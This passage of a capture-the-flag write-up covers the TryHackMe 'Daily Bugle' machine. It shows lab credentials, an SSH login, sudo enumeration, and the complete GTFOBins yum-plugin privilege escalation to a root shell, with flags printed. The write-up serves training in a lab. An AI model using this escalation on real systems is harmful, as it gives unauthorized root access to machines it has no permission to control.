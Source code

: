 User flag: `27a260fe3cba712cfdedb1c86d80442e`

## Root Flag

Now that we have the creds (`jjameson:nv5uz9r3ZEDzVjNu`), we can leave our reverse shell and directly connenct to SSH and the first thing I check is my sudo permission:
~~~
┌──(user㉿Y0B01)-[~/Desktop/thm/dailyBugle/files]
└─$ ssh jjameson@10.10.74.217                                                                                   130 ⨯
jjameson@10.10.74.217's password: 
Last login: Sat Sep 25 03:56:45 2021 from ip-10-9-0-135.eu-west-1.compute.internal
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY
    HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
[jjameson@dailybugle ~]$ 
~~~

We can run `yum` as sudo with no password. I checked [GTFOBins](https://gtfobins.github.io/gtfobins/yum/#sudo) for yum and there are two privesc with yum. I tried one of them and it worked:

~~~
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.2# whoami
root
sh-4.2# cd /root
sh-4.2# ls
anaconda-ks.cfg  root.txt
sh-4.2# cat root.txt
eec3d53292b1821868266858d7fa6f79
~~~
